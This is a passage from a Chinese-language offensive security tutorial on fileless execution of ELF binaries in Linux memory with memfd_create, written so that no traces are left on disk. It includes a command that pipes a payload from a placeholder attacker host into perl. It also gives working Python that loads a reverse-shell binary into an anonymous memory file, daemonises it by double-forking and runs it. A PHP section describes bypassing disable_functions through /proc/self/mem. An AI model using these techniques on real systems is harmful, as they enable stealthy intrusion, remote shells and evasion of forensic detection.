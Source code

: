 如上命令可以运行Netcat，但这个东西太像后门了，我们想要运行更为隐蔽的目标。

新创建的进程不会以`/proc/PID/fd`符号链接形式打开匿名文件，但我们还是能通过`/proc/PID/exe`符号链接看到我们的ELF文件，该符号链接指向的是进程正在执行的文件。

现在我们已经实现在Linux内存中执行ELF文件，不会在磁盘或者文件系统中留下任何痕迹。为了尽快且方便地加载可执行文件，我们可以将带有ELF文件的脚本通过管道交给Perl解释器执行：

```
$ curl http://attacker/evil_elf.pl | perl
```



## 四、Python

与Perl类似，在Python中我们也可以执行如下操作：
- 使用`memfd_create()`系统调用来创建匿名文件
- 使用可执行ELF文件填充该文件
- 执行该文件，也可以使用`fork()`多次执行该文件
```
import ctypes
import os
# read the executable file. It is a reverse shell in our case
binary = open('/tmp/rev-shell','rb').read()

fd = ctypes.CDLL(None).syscall(319,"",1) # call memfd_create and create an anonymous file
final_fd = open('/proc/self/fd/'+str(fd),'wb') # write our executable file.
final_fd.write(binary)
final_fd.close()

fork1 = os.fork() #create a child
if 0 != fork1: os._exit(0)

ctypes.CDLL(None).syscall(112) # call setsid() to create a parent.

fork2 = os.fork() #create a child from the parent. 
if 0 != fork2: os._exit(0)

os.execl('/proc/self/fd/'+str(fd),'argv0','argv1') # run our payload.
```

为了在python中调用`syscall`，我们需要标准的[ctypes](https://docs.python.org/2/library/ctypes.html)以及[os](https://docs.python.org/2/library/os.html)库，以便写入并执行文件、管理进程。所有操作步骤都与perl类似。

在如上代码中，我们读取的是位于`/tmp/`目录中的一个文件，我们也可以选择从web服务器远程加载该文件。



## 五、PHP

前面我们已经分析过perl以及python的实现代码。许多操作系统默认情况下会安装这些语言的解释器，下面让我们讨论最为有趣的一种场景。如果由于各种因素影响，我们无法使用perl以及python解释器，那么可以考虑使用PHP。这种语言在web开发者中非常流行，如果我们可以在web应用执行代码，那么很有可能就会碰到PHP解释器。

遗憾的是，php并没有处理`syscall`的内置机制。

Beched之前在rdot论坛上发表过一篇[文章](https://rdot.org/forum/showthread.php?t=3309)，文中使用[procfs](http://man7.org/linux/man-pages/man5/proc.5.html)（`/proc/self/mem`）在当前进程内存空间中将`open`重写为`system`，从而绕过`disable_functions`的限制。
